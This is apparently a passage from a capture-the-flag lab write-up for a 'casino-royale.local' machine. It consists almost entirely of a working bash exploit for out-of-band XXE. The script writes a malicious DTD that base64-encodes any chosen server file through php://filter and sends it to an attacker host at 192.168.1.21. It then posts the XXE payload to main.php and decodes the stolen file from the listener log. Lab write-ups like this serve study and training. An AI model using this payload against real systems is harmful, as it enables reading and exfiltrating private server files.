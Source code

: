 ## Script XXE
```bash
#!/bin/bash

file_name="$1"

dtd="""<!ENTITY % file SYSTEM \"php://filter/convert.base64-encode/resource=${file_name}\">
<!ENTITY % eval \"<!ENTITY &#x25; exfil SYSTEM 'http://192.168.1.21/?file=%file;'>\">
%eval;
%exfil;"""

echo "$dtd" > malicious.dtd


PYTHONUNBUFFERED=x python3 -m http.server 80 &> server.log & disown
sleep 2
pid="$!"

curl -s -X POST "http://casino-royale.local/ultra-access-view/main.php" --data '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://192.168.1.21/malicious.dtd"> %xxe; ]>
<creds><customer>testting</customer></creds>' &>/dev/null

sleep 2
echo ""
cat server.log | grep "file" | awk '{print $7}' | sed 's/\/?file=//' | base64 -d

kill -9 "$pid"
```

____
#sqli #file-upload-attacks #abusing-suid #xxe  #web-enumeration #csrf #information-leakage #ftp-brute-forcing 
___
